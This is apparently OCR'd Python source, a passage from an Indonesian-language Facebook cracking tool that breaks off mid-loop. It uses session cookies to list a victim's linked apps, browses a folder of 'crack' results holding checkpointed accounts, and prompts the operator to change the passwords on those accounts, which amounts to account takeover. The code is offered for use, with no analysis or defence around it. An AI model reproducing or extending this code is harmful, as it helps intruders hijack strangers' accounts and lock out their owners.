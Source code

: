 # CEK APLIKASI 
def cek_apk(kukis):
	session = requests.Session()
	w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":"noscript=1;"+kukis}).text
	sop = bs4.BeautifulSoup(w,"html.parser")
	x = sop.find("form",method="post")
	game = [i.text for i in x.find_all("h3")]
	try:
		for i in range(len(game)):
			print ("\r      %s%s. %s%s"%(P,i+1,H,game[i].replace("Ditambahkan pada"," Ditambahkan pada")))
	except AttributeError:
		print ("\r      %s• cookie invalid"%(M))
	w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":"noscript=1;"+kukis}).text
	sop = bs4.BeautifulSoup(w,"html.parser")
	x = sop.find("form",method="post")
	game = [i.text for i in x.find_all("h3")]
	try:
		for i in range(len(game)):
			print ("\r      %s%s. %s%s"%(P,i+1,M,game[i].replace("Kedaluwarsa"," Kedaluwarsa")))
	except AttributeError:
		print ("\r      %s• cookie invalid"%(M))

# CEKPOINT DETEKTOR
def file_cp():
	dirs = os.listdir('CP')
	print ("\n%s×%s [%s pilih hasil crack yg tersimpan untuk cek opsi %s]\n"%(U,O,U,O))
	for file in dirs:
		print("%s×%s> %s%s"%(U,M,K,file));jeda(0.07)
	try:
		print("\n%s%s%s Masukan file [ cth%s: %s%s.txt%s ]"%(U,til,O,M,K,waktu,O))
		opsi()
	except IOError:
		print ('%s× file tidak ada'%(M))
		exit()

def opsi():
	CP = ("CP/")
	romi = input("%s%s%s Nama file %s> %s"%(U,til,O,M,K))
	if romi == "":
		print("%s%s isi yang benar "%(M,til));jeda(2)
		opsi()
	try:
		file_cp = open(CP+romi, "r").readlines()
	except IOError:
		exit("\n%s%s nama file %s tidak tersedia"%(M,til,romi))
	jalan("%s×%s Mode pesawatkan terlebih dahulu 5 detik "%(U,O))
	pw=input("\n%s%s%s ubah sandi pada akun one tab? y/t %s> %s"%(U,til,O,M,K))
	if pw in['y','Y']:
		ubah_pass.append("ubah_sandi")
		pw2 = input("%s%s%s masukan sandi %s> %s"%(U,til,O,M,K))
		if len(pw2) <= 5:
			print("%s× sandi minimal 6 karakter "%(M))
		else:
			pwbaru.append(pw2)
	print("\n %s# %s---------------------------------------- %s#"%(P,M,P));jeda(2)
	print ("%s%s%s total akun %s: %s%s "%(U,til,O,M,K,str(len(file_cp))))
	print(" %s# %s---------------------------------------- %s#"%(P,M,P));jeda(2)
	nomor = 0
	for fb in file_cp:
